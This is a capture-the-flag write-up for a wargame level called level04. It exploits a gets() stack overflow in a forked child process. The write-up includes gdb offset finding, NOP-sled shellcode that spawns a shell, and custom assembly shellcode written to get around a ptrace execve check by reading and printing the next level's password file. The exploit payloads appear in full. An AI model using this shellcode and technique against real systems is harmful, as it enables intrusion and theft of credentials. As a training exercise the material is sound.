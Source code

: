 This binary will call fork() to create a child process. This child process will wait for an input using gets(). We're getting used to overflow it, let's try to see if we can overflow to any valuable register (looking at you, EIP). First of all we need to follow the child process in gdb :

    (gdb) set follow-fork-mode child

Then the classic pattern generator :

    (gdb) r
    Starting program: /home/users/level04/level04 
    [New process 1822]
    Give me some shellcode, k
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

    Program received signal SIGSEGV, Segmentation fault.
    [Switching to process 1822]
    0x41326641 in ?? ()
    (gdb) i r
    eax            0x0      0
    ecx            0xf7fd08c4       -134412092
    edx            0xffffd550       -10928
    ebx            0x41386541       1094214977
    esp            0xffffd5f0       0xffffd5f0
    ebp            0x31664130       0x31664130
    esi            0x0      0
    edi            0x66413965       1715550565
    eip            0x41326641       0x41326641 <-- offset 156
    eflags         0x10282  [ SF IF RF ]
    cs             0x23     35
    ss             0x2b     43
    ds             0x2b     43
    es             0x2b     43
    fs             0x0      0
    gs             0x63     99

Now we can simply send our now well known shellcode from level01 in an environment variable, get its address, pass it to EIP aaaaaaaand :

    level04@OverRide:~$ export SHELLCODE=$(python -c 'print "\x90"*100 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80"')
    [...]
    (gdb) x/500s $esp
    [...]
    0xffffd795:      "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300\061\333\061\311\061\322Rhn/shh//   bi\211\343RS\211\341\260\v"
    0xffffd821:      "SHELL=/bin/bash"
    [...]
    (gdb) x/s 0xffffd803
    0xffffd803:      "1\300\061\333\061\311\061\322Rhn/shh//bi\211\343RS\211\341\260\v"

Let's take an address that will land on one of the NOP operations, after SHELLCODE=, for instance 0xffffd7b1 (some addresses work, some don't, took a bit of trial and error, hence the 100 NOP at the beginning):

    level04@OverRide:~$ (python -c 'print "A" * 156 + "\xb1\xd7\xff\xff"') | ./level04 
    Give me some shellcode, k
    no exec() for you

After diggning into the source code for a bit, we can see a call to ptrace that looks for an execve call in the parent process. If execve is detected, the parent will kill the child, and write "no exec() for you".

So we can't use execve, but nothing prevents us from using read and write to directly write the password to stdout instead of spawning a shell. Let's craft a new shellcode that does that :

        section .text
            global _start
    _start:
            ; clear registers
            xor     eax, eax
            xor     ebx, ebx
            xor     ecx, ecx
            xor     edx, edx
            jmp     two

    one:
            pop     ebx
            ; set syscall number for sys_open
            mov     al, 5
            xor     ecx, ecx
            int     0x80

            ; move return value (fd) to esi
            mov     esi, eax
            jmp     read

    exit:
            ; set syscall number for sys_exit
            mov     al, 1
            xor     ebx, ebx
            int     0x80

    read:
            mov     ebx, esi
            mov     al, 3
            sub     esp, 1          ; reserve space for read buffer
            lea     ecx, [esp]      ; load address of buffer
            mov     dl, 1           ; set write length to 1 byte
            int     0x80

            xor     ebx, ebx
            cmp     ebx, eax        ; check EOF
            je      exit

            mov     al, 4   ; set syscall number for sys_write 
            mov     bl, 1   ; set fd to stdout
            mov     dl, 1   ; set write length to 1 byte
            int     0x80

            add     esp, 1  ; deallocate buffer space
            jmp     read

    two:
            call    one
            db      "/home/users/level05/.pass"

[source (AT&T syntax, painful, i know)](https://shell-storm.org/shellcode/files/shellcode-73.html)

    $ nasm -f elf32 read_shellcode.s -o readpass
    objdump -d ./readpass

    ./readpass:     file format elf32-i386


    Disassembly of section .text:

    00000000 <_start>:
    0:   31 c0                   xor    %eax,%eax
    2:   31 db                   xor    %ebx,%ebx
    4:   31 c9                   xor    %ecx,%ecx
    6:   31 d2                   xor    %edx,%edx
    8:   eb 32                   jmp    3c <two>

    0000000a <one>:
    a:   5b                      pop    %ebx
    b:   b0 05                   mov    $0x5,%al
    d:   31 c9                   xor    %ecx,%ecx
    f:   cd 80                   int    $0x80
    11:   89 c6                   mov    %eax,%esi
    13:   eb 06                   jmp    1b <read>
    [...]

Our shellcode becomes :

    \x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass

Crafted this way so that we can simply replace the file to read in at the end easily in case we need it later on.

Now let's redo the overflow using this code :

    level04@OverRide:~$ export PAYLOAD=$(python -c 'print "\x90"*100 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass"')
    level04@OverRide:~$ gdb ./level04 

    (gdb) b main
    Breakpoint 1 at 0x80486cd
    (gdb) r
    Starting program: /home/users/level04/level04 

    Breakpoint 1, 0x080486cd in main ()
    x/500s $esp
    [...]
    0xffffded3:      "LESSOPEN=| /usr/bin/lesspipe %s"
    0xffffdef3:      "PAYLOAD=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300\061\333\061\311\061\322\353\062[\260\005\061\311\211\306\353\006\260\001\061\333\211\363\260\003\203\354\001\215\f$\262\0011\333\071\303t\346\260\004\263\001\262\001\203\304\001\353\337\350\311\377\377\377/home/users/level05/.pass"
    0xffffdfba:      "LESSCLOSE=/usr/bin/lesspipe %s %s"
    [...]
    level04@OverRide:~$ (python -c 'print "A" * 156 + "\xf4\xde\xff\xff"') | ./level04 
    Give me some shellcode, k
    ^C
    level04@OverRide:~$ (python -c 'print "A" * 156 + "\xf5\xde\xff\xff"') | ./level04 
    Give me some shellcode, k
    ^C
    level04@OverRide:~$ (python -c 'print "A" * 156 + "\xf6\xde\xff\xff"') | ./level04 
    Give me some shellcode, k
    3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
    child is exiting...

